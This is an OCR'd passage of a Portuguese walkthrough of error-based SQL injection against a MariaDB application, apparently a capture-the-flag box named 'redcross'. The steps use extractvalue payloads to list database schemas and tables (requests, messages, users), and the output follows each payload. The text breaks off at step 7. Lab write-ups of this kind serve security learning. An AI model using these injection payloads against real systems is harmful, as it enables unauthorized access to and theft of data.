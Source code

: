     XPATH syntax error: '
    10.3.39-MariaDB-0+deb10u1'
    
    3
    
    `')+and+extractvalue(0x0a (select+SCHEMA_NAME+from+INFORMATION_SCHEMA.SCHEMATA))--+-`
    
    Output
    
    DEBUG INFO: Subquery returns more than 1 row
    
    Temos de limitar a apresentação a 1 linha
    
    4
    
    `') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1)))-- -`
    
    Output
    
    XPATH syntax error: 'information_schema'
    
    Sabemos que a primeira tabela é information_schema
    
    5
    
    `') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,)))-- -`
    
    XPATH syntax error: 'redcross'
    
    A outra base de dados é redcross
    
    6
    
    `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA like "redcross" LIMIT 0,1)))-- -`
    
    Output
    
    XPATH syntax error: 'requests'
    
    `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA like "redcross" LIMIT 1,1)))-- -`
    
    Output
    
    XPATH syntax error: 'messages'
    
    `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA like "redcross" LIMIT 2,1)))-- -`
    
    Output
    
    XPATH syntax error: 'users'
    
    `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA like "redcross" LIMIT 3,1)))-- -`
    
    O output é diferente, quer dizer que já não existe mais tabelas.
    
    Tabelas: request, messages, users.
    
    7
    